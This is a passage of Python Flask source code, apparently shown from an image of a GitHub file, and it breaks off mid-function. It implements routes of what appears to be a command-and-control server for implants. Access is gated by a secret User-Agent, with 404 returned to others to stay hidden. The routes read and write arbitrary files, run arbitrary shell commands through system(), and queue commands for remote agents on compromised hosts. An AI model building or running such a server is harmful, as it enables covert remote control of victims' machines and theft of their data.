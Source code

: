```py
    else:
        abort(404)


@app.route(f'/api/agents/<uid>/upload', methods=['POST'])
def post_upload(uid):
    if is_user_agent_keyed(request.headers.get('User-Agent')):     
        if uid in live_agents:
            if request.json:
                file = request.json["file"]
                f = open(file,"rb")
                data = f.read()
                f.close()
                return data, 200
        else:
            return 401
    else:
        abort(404)


@app.route(f'/api/agents/<uid>/download', methods=['POST'])
def post_download(uid):
    if is_user_agent_keyed(request.headers.get('User-Agent')):     
        if uid in live_agents:
            if request.json:
                file = request.json["file"]
                if file in ["app.py", "aggressor.txt"]:
                    abort(404)
                data = request.json["data"]
                f = open(file ,"w")
                f.write(data)
                f.close()
                return "OK", 200
        else:
            return 401
    else:
        abort(404)


@app.route(f'/api/server/exec', methods=['POST'])
def post_server_exec():
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        if request.json:
            cmd = request.json['cmd']
            res = system(f"{cmd}")
            return f"Command: {cmd} - Result code: {res}", 200
        else:
            return "Bad request", 400
    else:
        abort(404)


@app.route('/api/agents/<uid>/exec', methods=['GET', 'POST'])
def post_agent_exec(uid):
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        if uid in live_agents:
            if request.method == 'GET':
                return f"EXEC: {uid}", 200
            if request.method == 'POST':
                if request.json:
                    global command_to_execute_next
                    command_to_execute_next = request.json["cmd"]
                    global command_stack_reset_flag
```